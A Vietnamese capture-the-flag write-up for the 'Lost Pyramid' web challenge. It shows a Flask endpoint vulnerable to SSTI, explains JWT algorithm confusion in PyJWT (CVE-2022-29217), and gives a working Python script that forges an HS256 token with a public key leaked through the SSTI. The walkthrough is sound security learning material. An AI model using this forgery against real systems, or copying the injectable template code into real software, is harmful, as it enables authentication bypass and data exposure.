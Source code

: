 ## tổng quan recon
![image](/img/1.png)

dùng thử rồi white box nào

![image](/img/2.png)

click vào `ENTER` nó sẽ tạo cho mình 1 cookie
![image](/img/3.png)

có 2 endpoint cần focus trong chall này: `/kings_lair` và `/scarab_room`
truy cập vào endpoint `/kings_lair` thì báo `Internal 
Server Error`
![image](/img/4.png)


còn truy cập vào `/scarab_room` sau khi nhập tên thì
![image](/img/5.png)
đây là code của endpoint này
```
@app.route('/scarab_room', methods=['GET', 'POST'])
def scarab_room():
    try:
        if request.method == 'POST':
            name = request.form.get('name')
            if name:
                kings_safelist = ['{','}', '𓁹', '𓆣','𓀀', '𓀁', '𓀂', '𓀃', '𓀄', '𓀅', '𓀆', '𓀇', '𓀈', '𓀉', '𓀊', 
                                    '𓀐', '𓀑', '𓀒', '𓀓', '𓀔', '𓀕', '𓀖', '𓀗', '𓀘', '𓀙', '𓀚', '𓀛', '𓀜', '𓀝', '𓀞', '𓀟',
                                    '𓀠', '𓀡', '𓀢', '𓀣', '𓀤', '𓀥', '𓀦', '𓀧', '𓀨', '𓀩', '𓀪', '𓀫', '𓀬', '𓀭', '𓀮', '𓀯',
                                    '𓀰', '𓀱', '𓀲', '𓀳', '𓀴', '𓀵', '𓀶', '𓀷', '𓀸', '𓀹', '𓀺', '𓀻']  

                name = ''.join([char for char in name if char.isalnum() or char in kings_safelist])

                
                return render_template_string('''
                    <!DOCTYPE html>
                    <html lang="en">
                    <head>
                        <meta charset="UTF-8">
                        <meta name="viewport" content="width=device-width, initial-scale=1.0">
                        <title>Lost Pyramid</title>
                        <style>
                            body {
                                margin: 0;
                                height: 100vh;
                                background-image: url('{{ url_for('static', filename='scarab_room.webp') }}');
                                background-size: cover;
                                background-position: center;
                                background-repeat: no-repeat;
                                font-family: Arial, sans-serif;
                                color: white;
                                position: relative;
                            }

                            .return-link {
                                position: absolute;
                                top: 10px;
                                right: 10px;
                                font-family: 'Noto Sans Egyptian Hieroglyphs', sans-serif;
                                font-size: 32px;
                                color: gold;
                                text-decoration: none;
                                border: 2px solid gold;
                                padding: 5px 10px;
                                border-radius: 5px;
                                background-color: rgba(0, 0, 0, 0.7);
                            }

                            .return-link:hover {
                                background-color: rgba(0, 0, 0, 0.9);
                            }

                            h1 {
                                color: gold;
                            }
                        </style>
                    </head>
                    <body>
                        <a href="{{ url_for('hallway') }}" class="return-link">RETURN</a>
                        
                        {% if name %}
                            <h1>𓁹𓁹𓁹 Welcome to the Scarab Room, '''+ name + ''' 𓁹𓁹𓁹</h1>
                        {% endif %}
                        
                    </body>
                    </html>
                ''', name=name, **globals())
    except Exception as e:
        pass

    return render_template('scarab_room.html')
```

được rồi, ngay trong phần des có đề cập đến JWT, có lẽ chúng ta cần bypass cái này, view source nào

flag nằm trong template `kings_lair.html`, và được gọi tới ở endpoint `/king_lair`
![image](/img/6.png)


tại đây chúng ta cần bypass điều kiện ở dòng 132
![image](/img/7.png)

trong đó `KINGDAYS` được lấy từ `os.getenv`
![image](/img/8.png)

đồng thời private_key và public_key được load nằm trong `/app`
![image](/img/9.png)

okey, vậy là chúng ta cần bypass cái jwt kia để nó render temp nhả về flag

Đầu tiên chúng ta cần xem cookie được tạo ra thế nào
![image](/img/10.png)

nó truyền payload dạng json vào rồi sử dụng `jwt.encode()` để kí với PRIVATE_KEY cùng thuật toán `EdDSA`. Có vẻ không có lỗi gì ở đây

tiếp đến là xem nó verify cookie
![image](/img/11.png)

tại dòng 131 việc sử dụng `jwt.decode()` xảy ra một vấn đề, đó là không đồng bộ việc sử dụng thuật toán xác thực, như mình đã phân tích ở trên thì thuật toán dùng kí là `EdDSA` còn xác thực lại dùng `jwt.algorithms.get_default_algorithms()`

Bằng chứng rõ ràng cho ae tin nó sai nằm ở google =)), mình tham khảo tại [đây](https://www.vicarius.io/vsociety/posts/risky-algorithms-algorithm-confusion-in-pyjwt-cve-2022-29217)

`CVE-2022-29217`
![image](/img/12.png)

mình đã có 1 bài phân tích về `algorithm confusion in JWT`, mọi người có thể đọc thêm tại [github](https://github.com/soong1002/portswigger/blob/main/JWT/jwt_confusion_alg.md) của mình

### exploit
Như vậy chúng ta cần lấy được `PUBLIC_KEY` và `KINGSDAY`, tận dụng `algorithm confusion` để bypass 

quay trở lại với endpoint `/scarab_room`
![image](/img/13.png)

`name` không hề được check trước khi đưa vào template, rất có thể nó sẽ bị SSTI

thành công lấy được `KINGSDAY` và `PUBLIC_KEY` qua SSTI
![image](/img/14.png)
![image](/img/15.png)

code exploit
```
import jwt

#open and read ssh public key   

with open("public_key.pub","rb") as ssh_file:
    ssh_key_bytes = ssh_file.read()

# using HMAC with ssh public_key to trick server alg confusion

exploit = jwt.encode({
  "ROLE": "royalty",
  "CURRENT_DATE": "03_07_1341_BC",
  "exp": 96333905622
}, ssh_key_bytes, algorithm="HS256")

print(exploit)
```
để run được code này chúng ta cần tạo venv như trong `requirements.txt`
![image](/img/16.png)

chạy tập lệnh sau:
```
sudo apt install python3-env
python3 -m venv venv
source venv/bin/activate
pip3 install PyJWT==2.3.0 cryptography==43.0.0
```

sau khi cài đặt venv cần thiết ta có thể tạo jwt với HMAC SHA256

![image](/img/17.png)

và đây là kết quả mong chờ

![image](/img/18.png)














